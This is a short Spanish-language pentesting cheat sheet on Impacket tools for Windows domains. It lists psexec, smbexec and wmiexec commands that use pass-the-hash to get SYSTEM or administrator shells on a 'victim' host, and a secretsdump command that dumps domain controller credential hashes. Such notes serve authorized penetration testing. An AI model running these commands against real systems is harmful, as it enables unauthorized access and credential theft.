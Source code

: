 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec #Impacket 

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
# Ingresar con una consola 'CMD' al usuario 'NT Authority\System'
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     
❯ impacket-psexec domain.corp/Administrator@IP cmd.exe 

❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'administrator'@IP -hashes :NT     # Hacer 'PtH' y obtener un CMD
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec 'administrator'@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec 'administrator'@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como usuario admin 
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc domain.corp/'user':passwd@IP -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```